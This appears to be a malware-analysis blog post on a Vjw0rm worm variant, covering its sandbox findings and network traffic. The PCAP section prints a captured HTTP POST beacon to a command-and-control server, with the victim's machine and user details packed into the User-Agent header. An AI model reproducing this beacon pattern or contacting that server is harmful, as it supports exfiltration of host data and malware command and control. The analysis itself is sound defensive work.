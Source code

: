 
+++
author = "Fatima Nezhadian"
title = "Vjw0rm hechem0rder2223 Varient"
date = "2023-02-22"
description = "VjW0rm analysis"
tags = [
    "Malware analysis",
]
+++


  

  
VJw0rm is a worm that was first released in November 2016 by its primary author, v_B01 (aka Sliemerez).  [^1] It has different variant in JavaScript, Visual Basic, and powershell. This worm steals some system information and executes some commands from a command and control (C&C) server.
  

## Technical Analysis


  
The technical analysis of the VJw0rm consist of sandbox analysis which is done in an online platfrom (app.any.run). Then the PCAP file of the network traffic is analyzed. As the last step, the  malware script file is analyzed to get more insight on its behavior.



### Sandbox



As the first step the virus was analyzed in the *app.any.run* online platform, which reported some malicious behaviour such as writing to start menu file, connecting to command and control (C&C) server, also several suspicious behaviour such as executing scripts, creating files in user directory, application launching itself, reading computer name was reported.



### PCAP

  

Then the PCAP file related to the malware traffic was analyzed, the followings are some important points in the PCAP file:


By analyzing the HTTP packet, I found out that the malware sends a POST request in which the user-agent header contains unusual information.

The *Host* shows the ip address of the cnc server that the malware communicates with.

  

```http

POST /Vre HTTP/1.1

Accept : */*
Accept-Language : en-US
User-Agent : thechem0rder2223_C4BA3647\USER-PC\admin\Microsoft Windows 7 Professional \undefined\\YES\FALSE\
Accept-Encoding : gzip, deflate
Host : 185.157.162.75:2223
Content-Length : 0
Connection : Keep-Alive
Cache-Control : no-cache
```


[^1]:  (https://malpedia.caad.fkie.fraunhofer.de/details/win.vjw0rm)